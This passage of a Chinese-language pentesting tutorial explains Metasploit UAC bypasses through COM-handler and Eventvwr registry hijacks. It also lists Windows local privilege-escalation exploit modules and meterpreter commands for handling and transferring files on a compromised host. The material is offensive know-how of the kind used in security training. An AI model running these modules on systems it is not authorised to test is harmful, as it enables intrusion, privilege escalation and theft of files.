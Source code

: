     首先介绍一下这个 COM 处理程序劫持，此模块将通过在 hkcu 配置单元中创建 COM 处理程序注册表项来绕过 Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的 DLL。这些 DLL 包含导致会话权限提升的 payload。此模块修改注册表项，但在调用 payload 后将清除该项。这个模块需要 payload 的体系架构和操作系统匹配，但是当前的低权限 meterpreter 会话体系架构中可能不同。如果指定 exe:：custom，则应在单独的进程中启动 payload 后调用 ExitProcess（）。此模块通过目标上的 cmd.exe 调用目标二进制文件。因此，如果 cmd.exe 访问受到限制，此模块将无法正常运行。
    ```
    use exploit/windows/local/bypassuac_comhijack
    set session 1
    Exploit
    ```

- **通过 Eventvwr 注册表项**

    首先介绍一下这个模块，此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC。它将生成关闭 UAC 标志的第二个 shell。此模块修改注册表项，但在调用 payload 后将清除该项。该模块不需要 payload 的体系架构和操作系统匹配。如果指定 EXE ::Custom，则应在单独的进程中启动 payload 后调用 ExitProcess（）。
    ```
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

**利用系统漏洞提权**

除了这些模块还有其它的通过直接通过 incognito 中的 add_localgroup_user 提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc 域权限提升等其它的权限提升方法。
```bash
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
```

### 内网渗透

**操作文件系统**
```bash
ls：列出当前路径下的所有文件和文件夹。
pwd 或 getwd：查看当前路径
search：搜索文件,使用 search -h查看帮助。
cat：查看文件内容,比如 cat test.txt。
edit：编辑或者创建文件。和 Linux 系统的 vm 命令类似,同样适用于目标系统是 windows 的情况。
rm：删除文件。
cd：切换路径。
mkdir：创建文件夹。
rmdir：删除文件夹。
getlwd 或 lpwd：查看自己系统的当前路径。
lcd：切换自己当前系统的目录。
lls：显示自己当前系统的所有文件和文件夹。
```

**上传和下载**
```bash
upload <file> <destination> # 上传文件到 Windows 主机
# 注意：使用 -r 参数可以递归上传上传目录和文件

download <file> <path to save>  # 从 windows 主机下载文件
# 注意：Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r 命令
```
